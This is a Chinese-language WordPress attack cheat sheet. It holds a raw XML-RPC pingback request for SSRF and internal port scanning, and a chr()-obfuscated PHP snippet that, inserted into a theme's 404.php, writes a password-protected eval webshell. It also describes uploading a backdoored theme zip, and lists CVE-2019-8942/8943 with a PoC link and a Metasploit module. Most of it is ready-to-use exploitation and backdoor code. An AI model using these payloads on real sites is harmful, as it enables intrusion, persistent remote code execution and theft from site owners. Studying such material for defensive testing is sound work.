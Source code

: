 - SSRF

    WordPress 版本 <3.5.1, 通过 Pingback 可以实现的服务器端请求伪造 (Server-side request forgery，SSRF) 和远程端口扫描。
    ```
    POST /wordpress/xmlrpc.php HTTP/1.1
    Host: www.example.com
    Content-Length: 99

    <methodCall>
    <methodName>pingback.ping</methodName>
    <params><param>
    <value><string>要探测的ip和端口：http://127.0.0.1:80</string></value>
    </param><param><value><string>网站上一篇博客的URL：http://localhost/wordpress/?p=1)<SOME VALID BLOG FROM THE SITE ></string>
    </value></param></params>
    </methodCall>
    ```

**WordPress 后台拿 SHELL**
- 后台编辑404页面Getshell

    "主题"-“编辑”-“404.php”
    ```
    <script language="php">fputs(fopen(chr(46).chr(47).chr(99).chr(111).chr(110).chr(103).chr(46).chr(112).chr(104).chr(112),w),chr(60).chr(63).chr(112).chr(104).chr(112).chr(32).chr(64).chr(101).chr(118).chr(97).chr(108).chr(40).chr(36).chr(95).chr(80).chr(79).chr(83).chr(84).chr(91).chr(39).chr(112).chr(97).chr(115).chr(115).chr(39).chr(93).chr(41).chr(59).chr(63).chr(62));</script>
    ```
    插到文件头,404默认模板路径是：wp-content/themes/twentyten/404.php,其中"twentyten"目录是默认模板目录。更新完直接访问 localhost/wp-content/themes/twentyten/404.php 就会在twentyten目录生成一句话后门文件cong.php 密码pass，插入的代码是Chr加密，可自行编辑。（仔细看代码，文件名与一句话代码用" ,w "隔开了）

- 上传本地主题Getshell

    本机建立目录“test”,可以直接把一句话放到index.php文件，再新建一个style.css样式文件(版本不同，上传时会判断是否存在"index.php"文件和"style.css"样式文件。)

    打包test目录为zip文件。WP后台的主题管理，上传主题，安装。则你的后门路径为： `localhost/wp-content/themes/test/index.php`

**CVE-2019-8942 & CVE-2019-8943 WordPress Crop-image Shell Upload**
- 描述

    此模块利用 WordPress 版本5.0.0和<= 4.9.8上的路径遍历和本地文件包含漏洞。 裁剪图像功能允许用户（至少具有作者权限）通过在上载期间更改 _wp_attached_file 引用来调整图像大小并执行路径遍历。 利用的第二部分将通过在创建帖子时更改 _wp_page_template 属性，将该图像包含在当前主题中。 目前，此漏洞利用模块仅适用于基于 Unix 的系统。

- 影响版本
    - wordpress < 4.9.9
    - wordpress 5.0 ~ 5.0:rc3

- POC | Payload | exp
    - [brianwrf/WordPress_4.9.8_RCE_POC: A simple PoC for WordPress RCE (author priviledge), refer to CVE-2019-8942 and CVE-2019-8943.](https://github.com/brianwrf/WordPress_4.9.8_RCE_POC)

- MSF Module
    ```
    use exploit/multi/http/wp_crop_rce
    ```
